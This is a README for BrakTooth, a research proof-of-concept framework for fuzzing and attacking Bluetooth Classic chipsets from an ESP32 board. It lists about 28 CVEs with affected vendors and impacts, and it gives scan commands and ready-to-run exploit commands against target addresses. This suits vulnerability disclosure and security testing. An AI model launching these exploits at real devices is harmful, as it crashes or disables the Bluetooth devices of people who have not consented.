

# BrakTooth Proof of Concept Attacks (+ BT Fuzzing Framework)

<p align="center">

</p>

<p align="center">

</p>

> [!TIP]
>
> * **31/08/2024** - New Braktooth experimental release supports ARM64. It at least it runs on it! You can download in the [releases page](https://github.com/Matheus-Garbelini/braktooth_esp32_bluetooth_classic_attacks/releases/tag/v1.2.0).

------

* :wrench: [1) Requirements](#1-requirements)
* :floppy_disk: [2) Installation Instructions (x86 / ARM64)](#2-installation-instructions-x86--arm64)
* :rocket: [3) Running BT fuzzer (GUI or Terminal)](#3-running-bt-fuzzer-gui-or-terminal)
* :bomb: [4) Launching Braktooth Attacks](#4-bt-exploits-usage-instructions)
* :bulb: [5) Create Your own Exploit Scripts](#5-create-your-own-exploit-scripts)
* :radioactive: [Full List of BT Exploits](#️-full-list-of-bt-exploits)
* :page_facing_up: [Logging: Opening the capture files in Wireshark](#page_facing_up-logging-opening-the-capture-files-in-wireshark)
* :email: [Supported BT Protocol Stacks](#email-supported-bt-protocol-stacks)
* :cloud: [Web API](#️-web-api)
* :gear: [Advanced Configuration (Using GUI or JSON Config. File)](#gear-advanced-configuration-using-gui-or-json-config-file)
* :pray: [Acknowledgement](#pray-acknowledgement)

------

# 1) Requirements

[**BrakTooth**](https://www.braktooth.com/) requires a specific BT hardware development kit (**ESP-WROVER-KIT**) to be able to launch the attack since LMP packets cannot be sent from the host in normal Bluetooth Hardware.

* ##### **OS: Ubuntu 18.04** / 22.04 <u>(Preferred)</u>

​	We recommend running native Ubuntu 18.04 / 22.04 since we rely in USB low-latency for correct Baseband interception with ESP32 LMP stack. 

* **OS: Windows 10/11** **(Via Virtual Machine - Not Recommended)**

  You can use a virtual machine with VMWare and USB 3.0 or more enabled. This is important to reduce USB latency!
  You can experience some failures and esp32 reboots, however, most exploits will work fine if using **VMWare with USB 3.0** enabled.

* ##### Hardware Board: **ESP-WROVER-KIT**


<p align="left">

</p>
The recommended hardware is [ESP-WROVER-KIT-VE](https://www.espressif.com/en/products/hardware/esp-wrover-kit/overview). You can buy this board from several electronics suppliers and online stores such as:

* [Mouser](https://www.mouser.sg/ProductDetail/Espressif-Systems/ESP-WROVER-KIT-VE?qs=KUoIvG%2F9Ilbci6DcltJYaA%3D%3D)
* [Digikey](https://www.digikey.sg/en/products/detail/espressif-systems/ESP32-ETHERNET-KIT-VE/13414972)
* [Adafruit](https://www.adafruit.com/product/3384)
* [AliExpress](https://www.aliexpress.com/item/4001184374360.html)


# 2) Installation Instructions (x86 / ARM64)

## 2.1) Install (flash) PoC firmware on ESP-WROVER-KIT

First, connect **ESP32-WROVER-KIT** to your PC. You can check if two serial ports were added by running `ls /dev/ttyUSB*`. Normally, **ESP32-WROVER-KIT** adds two serial ports such as `/dev/ttyUSB0` and `/dev/ttyUSB1`. We want the second serial port, which is used for serial communication with **ESP32**.

```bash
wget https://github.com/Matheus-Garbelini/braktooth_esp32_bluetooth_classic_attacks/releases/download/v1.2.0/esp32driver.zip
sudo apt install -y unzip python3-dev python3-venv
unzip esp32driver.zip # Extract esp32driver.zip (firmware package)
cd release
python3 firmware.py flash /dev/ttyUSB1 # Please change your serial port to match your ESP32 device.
# You may need to press and hold the "Boot" button during the flashing process.
cd ../
```


> [!IMPORTANT]  
> **Source Code of the firmware is available in this repo: https://github.com/Matheus-Garbelini/esp32_firmware_patching_framework** 


## 2.2) Install Braktooth

```bash
# Install zstandard, wget and unzip
sudo apt install -y zstd wget unzip
# Download binary release for x86 or arm64
wget https://github.com/Matheus-Garbelini/braktooth_esp32_bluetooth_classic_attacks/releases/download/v1.2.0/wdissector_$(uname -m).tar.zst
# Extract the full wdissector compressed release file from releases page
tar -I zstd wdissector_$(uname -m).tar.zst
cd wdissector
# Install package requirements for Ubuntu 18.04
# It installs python3, nodejs, and system packages using apt-get
./requirements.sh
```


# 3) Running BT fuzzer (GUI or Terminal)

You can start the fuzzer as follows:

```bash
sudo bin/bt_fuzzer --scan # Scan for targets (BDAddress) for 15 seconds
sudo bin/bt_fuzzer --gui --autostart --target=E8:D0:3C:94:2C:66 # Start fuzzer with graphical user interface (GUI)
sudo bin/bt_fuzzer --autostart --target=E8:D0:3C:94:2C:66  # Start fuzzer without GUI  
```

#### BT Command line options

```bash
sudo bin/bt_fuzzer --help
Bluetooth Classic Fuzzer (Baseband, LMP, L2CAP, etc)
Usage:
  BT Fuzzer [OPTION...]

      --help               Print help
      --default-config     Start with default config
      --autostart          Automatically start (default: true)
      --no-gui             Start without GUI
      --test-webview       Test GUI webview performance (requires internet)
      --live-capture       Open wireshark in live capture mode
      --exploit [=arg(=)]  Exploit Name
      --list-exploits      List all exploits
      --host arg           Host BDAddress
      --host-port arg      Host serial port name of BT Interface 
                           (ESP-WROVER-KIT)
      --random_bdaddress   Enable/Disable host BDAddress randomization
      --target arg         Target BDAddress (default: /dev/ttyUSB1)
      --target-port arg    Target serial port name to detect crashes 
                           (default: /dev/ttyUSB2)
      --target-baud arg    Target baud rate (default: 115200)
      --bounding           Enable/Disable Bounding (default: true)
      --iocap arg          IO Capabilities (default: 3)
      --authreq arg        Authentication Request flag (default: 3)
      --scan               Scan BT Targets
```


## 3.1) Running Experimental Fuzzers:

#### Wi-Fi AP Fuzzer (WIP)

Wi-Fi AP Fuzzer requires use of [Alpha AWUS036AC Wi-Fi Dongle](https://www.amazon.com/Alfa-Long-Range-Dual-Band-Wireless-External/dp/B00MX57AO4/ref=sr_1_5?crid=3PN2VX74493Y3&keywords=AWUS036AC&qid=1643284766&sprefix=alpha+awus036ac%2Caps%2C310&sr=8-5) and installation of our custom driver for it:
`cd src/drivers/wifi/rtl8812au && make -j4`. Then, the Wi-FI AP fuzzer will load the custom driver on program startup:

```bash
sudo bin/wifi_ap_fuzzer # Start fuzzer without graphical interface
```

* Wi-Fi options such as SSID, password, authentication and channel can be changed on `configs/wifi_ap_config.json`. 
* Note that the parameter `WifiInterface` must match your dongle interface name, which is usually **wlan1**. 
* By default, the fuzzer run its main thread on the core defined by the parameter `MainThreadCore=2`. Make sure to change this parameter value if you prefer to run the fuzzer in a different core.
* Logs are saved on folder `logs/wifi_ap`

##### Wi-Fi AP Command line options

```bash
Wi-Fi AP 802.11 Fuzzer (MAC, LLC, SNAP, EAPoL, etc)
Usage:
  Wi-Fi AP Fuzzer [OPTION...]

      --help               Print help
      --default-config     Start with default config
      --autostart          Automatically start (default: true)
      --exploit [=arg(=)]  Exploit Name
      --fuzz               Enable/Disable fuzzing (default: true)
```


#### BLE Host Fuzzer (WIP)

BLE Host fuzzer uses the same ESP32 development kit and can be run via the command

```bash
sudo bin/bthost_fuzzer # Start fuzzer without graphical interface
```

* Logs are saved on folder `logs/BTHost`


# 4) BT Exploits Usage Instructions

## 4.1) List Exploits

BT Fuzzer has several exploits which can be listed by running the following command:

```bash
sudo bin/bt_fuzzer --list-exploits # Run as root

Available Exploits:
--> 'invalid_timing_accuracy'
--> 'repeated_host_connection'
--> 'sdp_unkown_element_type'
--> 'knob'
--> 'invalid_feature_page_execution'
.... # And others
```


## 4.2) Scan target

Before launching the attack, you need to know the `BDAddress` of the target BT device. To facilitate this, BT Exploiter can scan the `BDAddress` of targets nearby by running the following command:

```bash
sudo bin/bt_exploiter --scan
```

If **ESP32** is detected by bt_exploiter and scanning works, then you should get a similar output to the Figure below.


## 4.3) Launch the Attack!

Now it is your turn! Choose an exploit by its name and remember the target `BDAddress` where the exploit needs to be launched. You need to specify both the name of the exploit and the target `BDAddress` as follows to launch the respective attack:

```bash
sudo bin/bt_exploiter --host-port=/dev/ttyUSB1 --target=<target bdaddress> --exploit=<exploit name>
```

The argument  `--target` is your target `BDAddress` and `--host-port` must match with the correct ESP32-WROVER-KIT serial port.

For example, launching the exploit for **LMP AU Rand Flooding** (au_rand_flooding) can be accomplished as follows:

```bash
sudo bin/bt_exploiter --host-port=/dev/ttyUSB1 --target=a4:50:46:59:0c:90 --exploit=au_rand_flooding
```

If the target is vulnerable, then you should get some anomalous behavior from the target (shutdown, reboot, etc) or simply not be able to discover it anymore when scanning for BT targets again. 

**An example of a successful attack output for a vulnerable target that shuts down after the attack is presented below.**


# 5) Create your own Exploit Scripts

The source code of all exploits (C/C++) is included in folder **`modules/exploits`**. Any change to an existing exploit or new file that you add in this folder will be automatically identified and compiled the next time you run `bt_fuzzer` or `bt_exploiter`. 

For more details on how to create BT exploits, please read **`exploit_modules_tutorial.pdf`** included in this repository.


# :page_facing_up: ​Logging: Opening the capture files in Wireshark

The exploit tool includes a standalone version of **Wireshark** which already includes a plugin to read the customized captures saved by our tool.

Capture files are automatically saved in folder `logs/Bluetooth/capture_bluetooth.pcapng`. To open it via the custom Wireshark, run the following on the root folder of the exploiter (**bin** folder must be present on your working directory):

```bash
./bin/wireshark logs/Bluetooth/capture_bluetooth.pcapng
```

You should see the following if the capture file was generated correctly:


# ☢️ Full List of BT Exploits

The detailed table of attacks is shown below.


| CVE ID                                                    | Attack Name                     | Affected Vendor(s)                                           | Affected SoC(s) or Product(s)        | Impact                     | Exploit Name                                                 |
| --------------------------------------------------------- | ------------------------------- | ------------------------------------------------------------ | ------------------------------------ | -------------------------- | ------------------------------------------------------------ |
| CVE-2021-28139                                            | Feature Page Execution          | Espressif Systems                                            | ESP32 (SoC)                          | ACE / Deadlock             | invalid_feature_page_execution                               |
| CVE-2021-28136                                            | Duplicated IOCAP                | Espressif Systems                                            | ESP32 (SoC)                          | Crash (Reboot)             | duplicated_iocap                                             |
| CVE-2021-28135                                            | Feature Res. Flooding           | Espressif Systems                                            | ESP32 (SoC)                          | Crash (Reboot)             | feature_response_flooding                                    |
| CVE-2021-28138                                            | Invalid Public Key              | Espressif Systems                                            | ESP32 (SoC)                          | Crash (Reboot)             | wrong_encapsulated_payload                                   |
| CVE-2021-28137                                            | Feature Req. Ping-Pong          | Espressif Systems                                            | ESP32 (SoC)                          | Crash (Reboot)             | feature_req_ping_pong                                        |
| CVE-2021-28155                                            | Feature Res. Flooding           | Harman International                                         | JBL TUNE500BT (Product)              | Crash (Shutdown)           | feature_response_flooding                                    |
| CVE-2021-31609                                            | LMP Auto Rate Overflow          | Silabs                                                       | WT32i (SoC)                          | Crash (Reboot)             | lmp_auto_rate_overflow                                       |
| CVE-2021-34147                                            | Invalid Timing Accuracy         | [Infineon Technologies](https://www.infineon.com/)<br />(Former Cypress) | CYW20735B1 (SoC)                     | Crash (Reboot)             | invalid_timing_accuracy                                      |
| CVE-2021-34146                                            | AU Rand. Flooding               | [Infineon Technologies](https://www.infineon.com/)<br />(Former Cypress) | CYW20735B1 (SoC)                     | Crash (Reboot)             | au_rand_flooding                                             |
| CVE-2021-34145                                            | LMP Invalid Max Slot Type       | [Infineon Technologies](https://www.infineon.com/)<br />(Former Cypress) | CYW20735B1 (SoC)                     | Crash (Reboot)             | invalid_max_slot                                             |
| CVE-2021-34148                                            | LMP Max Slot Overflow           | [Infineon Technologies](https://www.infineon.com/)<br />(Former Cypress) | CYW20735B1 (SoC)                     | Crash (Reboot)             | lmp_max_slot_overflow                                        |
| CVE-2021-34149                                            | AU Rand. Flooding               | Texas Instruments                                            | CC2564C (SoC)                        | Deadlock                   | au_rand_flooding                                             |
| CVE-2021-31610                                            | AU Rand. Flooding               | Bluetrum                                                     | BT889X / AB5XX / AB5301A (SoCs)      | Crash (Reboot)             | [au_rand_flooding](https://gitlab.com/asset-sutd/software/wireless-deep-fuzzer/-/blob/wdissector/modules/exploits/bluetooth/au_rand_flooding.cpp) |
| CVE-2021-34150                                            | LMP Length Overflow over DM1    | Bluetrum                                                     | AB5301A (SoC)                        | Deadlock (Paging disabled) | lmp_overflow_dm1                                             |
| CVE-2021-34143                                            | AU Rand. Flooding               | Zhuhai Jieli Technology                                      | AC6366C (SoC)                        | Deadlock                   | au_rand_flooding                                             |
| CVE-2021-34144                                            | Truncated SCO Link Request      | Zhuhai Jieli Technology                                      | AC6366C (SoC)                        | Deadlock                   | truncated_sco_link_request                                   |
| CVE-2021-31612                                            | LMP Auto Rate Overflow          | Zhuhai Jieli Technology                                      | AC6905X (SoC)                        | Deadlock                   | lmp_auto_rate_overflow                                       |
| CVE-2021-31613                                            | Truncated LMP_accepted          | Zhuhai Jieli Technology                                      | AC6905X / AC6925C (SoC)              | Crash (Reboot)             | truncated_lmp_accepted                                       |
| CVE-2021-31611                                            | Invalid Setup Complete          | Zhuhai Jieli Technology                                      | AC6905X / AC6925C (SoC)              | Deadlock                   | invalid_setup_complete                                       |
| CVE-2021-31787                                            | Feature Res. Flooding           | Actions Technology                                           | ATS2815 / ATS2819 (SoC)              | Crash (Shutdown)           | feature_response_flooding                                    |
| CVE-2021-31785                                            | Repeated Host Connection        | Actions Technology                                           | ATS2815 / ATS2819 (SoC)              | Deadlock                   | repeated_host_connection                                     |
| CVE-2021-31786                                            | Multiple Same Host Connection   | Actions Technology                                           | ATS2815 / ATS2819 (SoC)              | Deadlock (Shutdown)        | N.A (Specific BDAddress Configuration)                       |
| CVE-2021-33155                                            | LMP Paging Scan Disable         | Intel                                                        | Intel AX200 (SoC)                    | Deadlock (Paging disabled) | paging_scan_disable                                          |
| CVE-2021-33139                                            | Invalid Timing Accuracy         | Intel                                                        | Intel AX200 (SoC)                    | Crash (FW Reboot)          | invalid_timing_accuracy                                      |
| CVE-2021-30348                                            | Invalid Timing Accuracy         | Qualcomm                                                     | Snapdragon 845 / 855 / Others (SoCs) | Crash (FW Reboot)          | invalid_timing_accuracy                                      |
| CVE-2021-35093                                            | LMP Length Overflow over 2-DH1  | Qualcomm                                                     | CSR 8811 / CSR 8510 (SoCs)           | Deadlock / Crash           | lmp_overflow_2dh1                                            |
| Pending                                                   | LMP Invalid Transport           | Beken                                                        | BK3266                               | Deadlock (Paging disabled) | lmp_invalid_transport                                        |
| [CVE-2019-9506 ](https://www.kb.cert.org/vuls/id/918987/) | KNOB (Extra - For testing only) | Many                                                         | Intel AX200 (SoC)                    | Encryption Downgrade       | knob                                                         |


# :email: ​Supported BT Protocol Stacks

WDissector is built upon well known protocols stack implementation. These are used to generate messages and to guide the target device towards a set of protocol procedures which are expected to be tested again unknown or insecure behaviour.

* Layer 1-2:
  * Baseband & LMP - [ESP32 Bluetooth Library](https://github.com/espressif/esp32-bt-lib) (Reverse Engineered)
* Layer 2-7:
  * L2CAP and profiles - [BlueKitchen](https://github.com/bluekitchen/btstack) (Open Source)


# ☁️ Web API

The fuzzer starts a SocketIO server and exposes access to its functions to a SocketIO client through websockets. The Table below lists the current API available for the client. **More to be added in future updates**.

Two types of server is available. You can choose the server type on the configuration file by changing the `ServerModule` index number:

```json
"ServerOptions": {
    "APINamespace": "/", 			// Namespace (root path) of event. On REST, this path serves a basic API documentation
    "Enable": true,					// Enable Server
    "EnableEvents": false,  		// Enable SocketIO Asynchronous events (from server to clients)
    "ListenAddress": "127.0.0.1", 	// Server address
    "Logging": false,				// Enable Server logging
    "Port": 3000,					// Server port
    "ServerModule": 1,				// Server module index
    "ServerModulesList": [			// List of Server modules (from 0 to N)
        "SocketIOServer",			// modules/server/SocketIOServer.py (index 0)
        "RESTServer"				// modules/server/RESTServer.py     (index 1)
    ]
}
```

>[!WARNING] 
>SocketIO and REST Server events name are case sensitive. Requests from clients with wrong event names are ignored.


## Request Events (Polling - SocketIOServer / RESTServer)

The following python script is loaded at runtime by Braktooth to interact with the C++ code: 

* `wdissector/modules/server/SocketIOServer.py`
* `wdissector/modules/server/RESTServer.py`

| Event Name                          | Description                                                  | Input                     | Return                     | Example (SocketIO)                                           |
| ----------------------------------- | ------------------------------------------------------------ | ------------------------- | -------------------------- | ------------------------------------------------------------ |
| <small>**Summary**</small>          | <small>Returns summary of current fuzzing session, including statistics such as number of packets tarnsmitted and received</small> | <small>Nothing</small>    | <small>**String**</small>  | <small>scripts/server_test.py **-r** Summary</small>         |
| <small>**GraphDot**</small>         | <small>Returns current state machine in dot string format</small> | <small>Nothing</small>    | <small>**String**</small>  | <small>scripts/server_test.py **-r** GraphDot</small>        |
| <small>**GetModelConfig**</small>   | <small>Get fuzzer configuration</small>                      | <small>Nothing</small>    | <small>**JSON**</small>    | <small>scripts/server_test.py **-r** GetModelConfig</small>  |
| **<small>SetModelConfig</small>**   | <small>Set fuzzer configuration, returns parsing status</small> | <small>**JSON**</small>   | <small>**Boolean**</small> | <small>scripts/server_test.py **-r** SetModelConfig -d '{"config":{...}}'</small> |
| <small>**GetDefaultConfig**</small> | <small>Get fuzzer default configuration</small>              | <small>Nothing</small>    | <small>**JSON**</small>    | <small>scripts/server_test.py **-r** GetDefaultConfig</small> |
| <small>**ResetConfig**</small>      | <small>Reset fuzzer configuration to default. Requires restart</small> | <small>Nothing</small>    | <small>**JSON**</small>    | <small>scripts/server_test.py **-r** ResetConfig</small>     |
| <small>**Shutdown**</small>         | <small>Shutdown fuzzer (terminate process)</small>           | <small>Nothing</small>    | <small>Nothing</small>     | <small>scripts/server_test.py **-r** Shutdown</small>        |
| <small>**Start**</small>            | <small>Starts fuzzing the target defined in configuration file</small> | <small>Nothing</small>    | <small>Nothing</small>     | <small>scripts/server_test.py **-r** Start</small>           |
| <small>**Stop**</small>             | <small>Stops fuzzing</small>                                 | <small>Nothing</small>    | <small>Nothing</small>     | <small>scripts/server_test.py **-r** Stop</small>            |
| <small>**Scan**</small>             | <small>Start BT scan (Enquiry) for a fixed time of 15 seconds. Subscribe to async event `Scan` to get targets results as soon as they are found during scanning</small> | <small>Nothing</small>    | <small>Nothing</small>     | <small>scripts/server_test.py **-r** Scan</small>            |
| <small>**GetScanResults**</small>   | <small>Get scan results of all targets found during latest scanning request. Request event `Scan` needs to be called first</small> | <small>Nothing</small>    | <small>**JSON**</small>    | <small>scripts/server_test.py **-r** GetScanResults</small>  |
| <small>**StartExploit**</small>     | <small>Start exploit by name</small>                         | <small>**String**</small> | <small>**Boolean**</small> | <small>scripts/server_test.py **-r** StartExploit **-d** knob</small> |
| <small>**StopExploit**</small>      | <small>Stop exploit if it was previously running</small>     | <small>Nothing</small>    | <small>Nothing</small>     | <small>scripts/server_test.py **-r** StartExploit **-d** knob</small> |

>[!WARNING] 
>REST Server implements `GET` and `POST` methods for all events (endpoints). 
>1. For `POST` requests, the argument must be sent in JSON type.
>2. For `GET` the request data must be included in the URL the parameter `?args=`


## Subscription Events (Asynchronous - SocketIOServer) 

The following python script is loaded at runtime by Braktooth to interact with the C++ code: `wdissector/modules/server/SocketIOServer.py`

| Event Name                     | Description                                                  | Return                    | Example (SocketIO)                                       |
| ------------------------------ | ------------------------------------------------------------ | ------------------------- | -------------------------------------------------------- |
| <small>**Anomaly**</small>     | <small>Returns information of anomaly (crash/deadlock/anomaly)</small> | <small>**JSON**</small>   | <small>scripts/server_test.py **-w** Anomaly</small>     |
| <small>**GraphUpdate**</small> | <small>Returns string of current state in dot format</small> | <small>**String**</small> | <small>scripts/server_test.py **-w** GraphUpdate</small> |
| <small>**Modules**</small>     | <small>Returns modules (exploits)  status messages. The returned json object contains `"level"` to indicate priority (Green `"G"`, Yellow `"Y"`,Red `"R"`) and `"msg"`  with the status text.</small> | <small>**JSON**</small>   | <small>scripts/server_test.py **-w** Modules</small>     |
| <small>**Scan**</small>        | <small>Returns scanned target information while scanning is in progress. The returned json object contains target `BDAddress`, `Name`, `RSSI` and `Class`.</small> | <small>**JSON**</small>   | <small>scripts/server_test.py **-w** Scan</small>        |


## Adding new server API endpoints in C++

Adding new events to the server requires changing the fuzzer code to register new function to corresponding events. The following code example below shows how to use `src/PythonServer.hpp` C++ library to easily add callbacks to events and get parameters sent from clients.  Note the function `RegisterEventCallback` requires a string as the event name and a function pointer as callback. The example uses lambda expression to allow us to declare the callback as the argument itself.

>[!WARNING] 
>While C++ SocketIO event callbacks are busy, the main Python interpreter is blocked due to the Global Interpreter Lock (GIL). As such, do not place any time consuming code inside such C++ events. Otherwise, background Python threads will not work as expected or freeze while C++ code is being executed.

```cpp
#include <iostream>
#include <string>
#include "server/SocketIOServer.hpp"

using namespace std;

SockerIOServer Server; // Server Instance

// Initialize Python Runtime
if (PythonCore.init())
{
    if (Server.init("0.0.0.0", 3000)) // Server starts here on port 3000
    {
        cout << Server.TAG << "Server at " << Server.listen_address << ":" << Server.port << endl;
		
        // Register callback to client connection or disconnection
        Server.OnConnectionChange([](bool connection) {
            if (connection)
                cout << Server.TAG, "Remote Client Connected" << endl;
            else
                cout << Server.TAG, "Remote Client Disconnected" << endl;
        });
		// Example 1: No arguments (simply do not use "args")
        Server.RegisterEventCallback("Example1", [&](py::list args) {
            // Perform action to event "Example1" requested by some client
        });
		// Example 2: Read arguments (convert first argument to string from "args")
        Server.RegisterEventCallback("Example2", [&](py::list args) {
            if (args.size() > 0)
            {   // Convert first argument from arguments array "args" to string            
                string config_string = args[0].cast<string>(); 
            	// Do something ...
            }
        });
        // Example 3: Return something back to the client
        Server.RegisterEventCallback("Example3", [&](py::list args) -> string {
            // Do something ...
            return "Hello back"
        });
    }
    else
    {
        GL1R(Server.TAG, "Server failed to initialize");
    }
}
```


# :gear: ​Advanced Configuration (Using GUI or JSON Config. File)

The BT fuzzer configuration is loaded from `configs/bt_config.json` with the following list of options:

## Bluetooth Options


- **Save Captures** - When option is enabled, capture file is saved on `logs/Bluetooth/capture_bluetooth.pcapng`

- **Scan** - Scan for BT targets

- **BT Program** - Programs or "Profiles" which connect with a target device or wait for a connection. The available BT programs are available on the table below:

  | BT Program           | Connection Type    | PROFILE      |
  | -------------------- | ------------------ | ------------ |
  | bin/sdp_rfcomm_query | Initiator / Master | SDP / RFCOMM |

- **Target BDADDR** - Target of the device to connect. Only applied for BT programs which **initiates** the connection. This is not applied for programs that wait for connections such as `bin/spp_counter` or `bin/a2dp_sink_demo`.

```json
{
    "config": {
        "Bluetooth": {
            // BT Options
            "EnableBounding": true,
            "AuthReq": 4,        
            "DisableRoleSwitch": true,
            "IOCap": 3,
            "Pin": "0000",
            "TargetBDAddress": "E0:D4:E8:19:C7:69",
            // TODO: Store a list of targets
            "TargetBDAddressList": [  
                "24:0A:C4:61:1C:1A",
                "E0:D4:E8:19:C7:69"
            ]
            // ...
     }
  // ...
}
```


## Security Options

- **Enable Bounding** - Enabled BT Pairing. If disabled, then all the next options have no effect.
- **Disable Role Switch** (Checkbox) - Forces connection to reject any attempts to perform role switching. This ensures that once the master connects to a slave, their roles stay the same during the session. Exploits such as KNOB require this for the master (being the fuzzer) to mutate the `LMP_max_encryption_key_size_req` packet. **Disable this options if the slave does not accept the connection without role switching.**
- **IO Capabilities** - Selects IO capabilities of the fuzzer during the pairing process according to the following:
  - Display Only = 0
  - Display Yes No = 1
  - Keyboard Only = 2
  - No Input No Output = 3 (Default)
  - Unknown = 256
- **Auth. Requirements** - Flag which indicates the authentication parameters during the pairing process.
  - No MitM, No Bonding = 0
  - MitM, No Bonding = 1
  - No MitM, Dedicated Bonding = 2
  - MitM, Dedicated Bonding = 3
  - No MitM, General Bonding = 4
  - MitM, General Bonding = 5
- **PIN** - 4 digit PIN number to be used during pairing (legacy pairing method).


## Driver Options

>[!WARNING]  
>The defaults for advanced options are recommended to be used unless debugging the firmware or manually experimenting with BT.


* **Bridge HCI** (Checkbox) - Creates raw pseudo-terminal (serial bridge) which can be used to connect a BT stack to the fuzzer. The pseudo terminal is created on /dev/pts folder and advertised by the fuzzer on the "**Events**" window.

* **LMP Sniffing** (Checkbox) - Allows firmware to send LMP packets. This option is required for the fuzzer. It can only be disabled if using ESP32 as a standalone HCI BT device. Not only LMP packets are sniffed but also relevant baseband information such as BT header, channel number, device role, channel speed (table type - ptt) and TX/RX encryption.

> [!TIP]
> ESP32 is a common HCI device at startup, but the fuzzer enables LMP Sniffing mode for its use. This means that you can integrate this ESP32 firmware into standard HCI tests by enabling `Bridge HCI` and `LMP Sniffing` then sending raw HCI commands on the pseudo-terminal created by the fuzzer (on `/dev/pts/`).  

* **Debug UART** (Checkbox) - Outputs serial ASCII messages coming from the firmware. This is useful to get crash traces from the firmware.

* **Debug HCI** (Checkbox) - Prints HCI hex encoded messages between host and firmware.

* **Intercept TX** (Checkbox) - Intercept BT packets from the firmware before they are sent over the air. This is required for "**Packet Mutation**" to work. 

> [!WARNING] 
> Low Latency Required! Intercept TX requires a high speed USB adaptor such as FT2232H. As a general rule, a good latency is below 600us.

* **RX Bypass** (Checkbox) - Completely disables the firmware to respond to LMP packets while a connection is maintained with the target BT device. This can be used to send arbitrary LMP packets from the host since the very first LMP interactions without interference from ESP32 own BT stack.

> [!TIP]
> RX Bypass is a **powerful feature** which can be used for many used besides fuzzing. Applications range from exploits, protocol compliance testing, BT experimentation, LMP debugging over-the-air, etc. This feature is quite stable.

* **Bypass on demand** (Checkbox) - Temporarily disable LMP reception on the firmware when duplicated packets are sent. This prevents random firmware crashes as ESP32 own BT stack may not be prepared to receive out-of-order response packets from the target device.

* **Show NULL / POLL** (Checkbox) - (**Experimental feature**) Enables receiving BT baseband POLL and NULL messages between ESP32 and target device. This packets are also saved to BT capture file and are shown on the "TX / RX" view window. Depending on the Poll time, it can log too many packets, thus significantly increasing the BT capture file.


## Server Options


* **Status** (LED) - Indicates if the server is running
* **Enable Server** (Checkbox) - Enables or disables the server. Toggling this has immediate effect.
* **Enable Events** (Checkbox) - Allow server to send event to clients. Disabling this requites that clients poll the server instead.
* **Server Module** (Text box) - Defines python script to use as the server on `modules/server` folder. Changing this requires pressing `reload` to take effect.
* **Listen Address** (Text box) - Defines the server listen address. Defaults to `0.0.0.0` to listen on all IPv4 addresses on local machine. Changing this requires pressing `reload` to take effect.
* **Listen Port** (Text box) - Defines the server listen port. Defaults to 3000. Changing this requires pressing `reload` to take effect.
* **Reload** (Button) - Reloads previous configures parameters except for "Enable Server" and "Enable Events" which take effect immediately.

The aforementioned server options are loaded from `configs/bt_config.json` on the following attributes:

```json
{
    "config": {
        // ...
        "ServerOptions": {
            "Enable": true,
            "EnableEvents": true,
            "ListenAddress": "0.0.0.0",
            "Logging": false, 			// Allows server script to print log messages
            "Port": 3000,
            "Type": "SocketIO"
        },
      // ...
    }
}
```


## Fuzzing Options


* **Auto Start** (Checkbox) - Automatically starts fuzzing a selected target (via GUI or config. file) when starting the fuzzer
* **Packet Retry** (Checkbox) - Resend packets that are not replied by the target. Timeout in milliseconds can be adjusted via parameter `PacketRetryTimeoutMS` on `configs/bt_config.json`.
* **Packet Duplication** (Checkbox & Number) - Enables packet duplication (out of order). The "Chance" number defines the probability per packet for a duplication to occur in the future.
* **Packet Mutation** (Checkbox & Number) - Enables packet mutation. The "Chance" number defines the probability per packet for a mutation to occur.
* **Max Duplication Timeout** (Text box & Number) - This defines the maximum time for a duplicated to be sent after the original.
* **Mutator** (Combo box) - Defines mutation operator **(WIP)**
* **Selector** (Combo box) - Defines selector for the operators **(WIP)**

The aforementioned fuzzing options are loaded from `configs/bt_config.json` on the following attributes:

```json
{
    "config": {
 		// ...
        "Fuzzing": {
            "DefaultDuplicationProbability": 0.3,
            "DefaultMutationProbability": 0.2,
            "MaxDuplicationTime": 4000,
            "PacketRetry": true,
            "PacketRetryTimeoutMS": 1000,
            "enable_duplication": false,
            "enable_mutation": false
        }
    // ...
}
```


## Model Options (State Machine used during fuzzing)



* **Import Model** (Button) - Import and Load state machine model according to `State Mapping` parameters defined on `configs/bt_config.json`. The supported formats are **.pcap, .pcapng** and **.json**

* **Save Model** (Button) - Save current state into both **.json** and **.dot** formats. The saved **.json** file can be later imported whereas **.dot** is used for state machine visualisation by any dot compatible viewer software.

* **Merge Modle** (Button) - Merge multiple state machine models into a single one. Similar to "Import Model" but you can select multiple files

* **Show All States** (Checkbox) - Whether to show all states or just few (previous and next states only) on the GUI state viewer window. This has no effect if the fuzzer is running without graphical interface (headless mode)

* **Enable Mapper** (Checkbox) - Enables State mapping during the fuzzing process. Whenever new transitions are not found during the fuzzing process, new paths will be created for the model. 

>  [!WARNING] 
> When using state mapper, always remember to save your model so you can use it later via "Import Model" button. Alternativally you can save the model with the same name of BT program so it loads automatically whenever the fuzzer starts. The default model path is `configs/models/bt/`


# :pray: ​Acknowledgement
This research was partially supported by [NRF National Satellite of Excellence in Trustworthy Software Systems](https://www.comp.nus.edu.sg/~nsoe-tss/) (Project no. RGNSOE2001 and RGNSOE2101).

